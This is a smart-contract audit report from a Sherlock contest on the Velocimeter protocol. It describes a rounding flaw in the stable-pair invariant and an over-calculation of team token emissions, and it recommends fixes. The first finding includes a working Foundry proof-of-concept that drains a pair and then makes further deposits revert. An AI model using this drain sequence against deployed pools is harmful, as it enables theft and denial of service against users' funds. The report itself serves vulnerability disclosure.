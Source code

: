 # Velocimeter

> This report contains findings reported in the [Velocimeter](https://audits.sherlock.xyz/contests/442) competition on Sherlock by the me, [@flacko](https://x.com/flack00n), as a part of the Sentryx security team.

# Summary

|Severity|Issues|Unique|
|--|--|--|
|[High](#high)|0|0|
|[Medium](#medium)|2|0|

# Findings

# Medium

## [First liquidity provider of stable pair can DOS it](https://github.com/sherlock-audit/2024-06-velocimeter-judging/issues/279)

## Summary
A rounding error in the calculation of the `k` invariant in Pair.sol carried over from Velodrome's implementation can lead to the `k` invariant of stable pools to equal 0, allowing an attacker to steal whatever's left in the pool.
## Vulnerability Detail
The invariant `k` is calculated as follows:

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413
```solidity
    function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0;
            uint _y = y * 1e18 / decimals1;
→           uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
            return _a * _b / 1e18;  // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
```

Where `x` and `y` are the reserves/balances of the two tokens of the pool. Given little enough liquidity provided to the pool, the calculation of `_a` can result in 0 allowing an attacker to deposit minimal liquidity, swap continuously between the two tokens in the pool stealing whatever's left, inflate their LP tokens balance until total supply starts overflowing.

<details>
    <summary>Proof of concept</summary>

    Append the two functions to **Pair.t.sol** and comment out `require(IVoter(voter).governor() == tx.origin, "not governor");` on line 114 in PairFactory.sol (for the sake of simplicity, that part is not relevant to the issue at hand anyway).
    
    ```solidity
    function drainPair(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(pair), 1);
        uint amount0;
        uint amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }

        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair), 1);

        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount0 = 0;
        }

        pair.swap(amount0, amount1, address(this), new bytes(0));
    }

    function testDestroyPair() public {
        deployCoins();
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);
        deployPairFactoryAndRouter();

        Pair pair = Pair(factory.createPair(address(DAI), address(FRAX), true));

        for(uint i = 0; i < 10; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);

            // as long as 10_000_000^2 < 1e18
            uint liquidity = pair.mint(address(this));

            console2.log("pair:", address(pair), "liquidity:", liquidity);
            console2.log("total liq:", pair.balanceOf(address(this)));

            drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));

            console2.log("DAI balance:", DAI.balanceOf(address(pair)));
            console2.log("FRAX balance:", FRAX.balanceOf(address(pair)));

            require(DAI.balanceOf(address(pair)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(pair)) == 2, "should drain FRAX balance");
        }

        DAI.transfer(address(pair), 1 ether);
        FRAX.transfer(address(pair), 1 ether);

        vm.expectRevert();
        pair.mint(address(this));
    }
    ```

</details>

## Impact
Stable pairs can be DOSed completely by their first depositor, rendering them useless.
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413
## Tool used
Manual Review
## Recommendation
Implement the fix that Velodrome introduced for the issue: https://github.com/velodrome-finance/contracts/commit/59f9c135ccf7685af81f021918c879b21c2c5f04
1. Only allow depositing equal amounts of liquidity to a stable pair pool
2. Require `k` to be above minimum `k`.

## [Miscalculation of team emissions in Minter contract](https://github.com/sherlock-audit/2024-06-velocimeter-judging/issues/231)

## Summary
When a period is updated in the minter and FLOW tokens are emitted for distribution to the Voter contract, the team emissions are supposed to be 5% at most from the weekly emissions, however they are calculated to 5.26% because of incorrect division.
## Vulnerability Detail
The team emissions are calculated in the Minter's `update_period()` function which sends FLOW rewards to the Voter contract every week and it also sends a chunk of that to the Velocimeter team address.

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Minter.sol#L112-L137
```solidity
    function update_period() external returns (uint) {
        uint _period = active_period;
        if (block.timestamp >= _period + WEEK && initializer == address(0)) { // only trigger if new week
            _period = (block.timestamp / WEEK) * WEEK;
            active_period = _period;
            uint256 weekly = weekly_emission();

→           uint _teamEmissions = (teamRate * weekly) /
                (PRECISION - teamRate);
            uint _required =  weekly + _teamEmissions;
            uint _balanceOf = _flow.balanceOf(address(this));
            if (_balanceOf < _required) {
                _flow.mint(address(this), _required - _balanceOf);
            }

            require(_flow.transfer(teamEmissions, _teamEmissions));

            _checkpointRewardsDistributors();

            _flow.approve(address(_voter), weekly);
            _voter.notifyRewardAmount(weekly);

            emit Mint(msg.sender, weekly, circulating_supply());
        }
        return _period;
    }
```

The problem with the `_teamEmissions` calculation is that it divides by less than 100%, so effectively the team emissions will be more than expected.
Let's say the `teamRate` is the `MAX_TEAM_RATE` of 50. `PRECISION` is equal to 1000, so the equation comes out as: $(50 * weekly) / (1000 - 50) = weekly * 50 / 950 = weekly * 0,0526315789$

And instead of taking the maximum of 5% as the code clearly indicates, it'll take 5.26% instead.
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Minter.sol#L30
```solidity
    uint public constant MAX_TEAM_RATE = 50; // 5% max
```
## Impact
Team emissions will be more than the maximum which will affect directly the issuance of FLOW tokens and thus its inflation rate.
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Minter.sol#L119-L120
## Tool used
Manual Review
## Recommendation
Change the `_teamEmissions` calculation to `(teamRate * weekly) / PRECISION` instead of `(teamRate * weekly) / (PRECISION - teamRate)`.
